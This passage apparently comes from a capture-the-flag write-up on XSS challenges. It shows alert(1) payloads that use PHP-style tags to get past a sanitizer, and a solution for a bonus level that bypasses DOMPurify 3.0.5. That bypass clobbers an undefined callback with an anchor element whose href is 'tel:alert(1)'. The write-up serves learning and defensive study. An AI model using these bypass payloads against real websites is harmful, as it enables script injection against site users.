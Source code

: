 For this reason, the following payloads works:

    <?php><img src=x onerror=alert(1)>
    <?><script>alert(1)

## eXSStravaganza bonus level 3
### The sanitizer

    async function sanitize(input) {
        // let's use DOMPurify 3.0.5!
        const sanitized = await DOMPurify.sanitize(input);
        setTimeout(notifySanitizationCompleted, 100);
        return sanitized;
    }

    function notifySanitizationCompleted() {
        setTimeout(sanitizationCompleted, 100);
    }

### The solution

We need to make use of DOM Clobbering.

The code calls a function called `sanitizationCompleted`, which does not exist.

With DOM Clobbering we can create an element with that value as id in order to make it accessible.

DOMPurify filters `javascript:`, but not `tel:`, as it is deemed secure. It's not.

So the final payload is:

    <a id="sanitizationCompleted" href="tel:alert(1)">

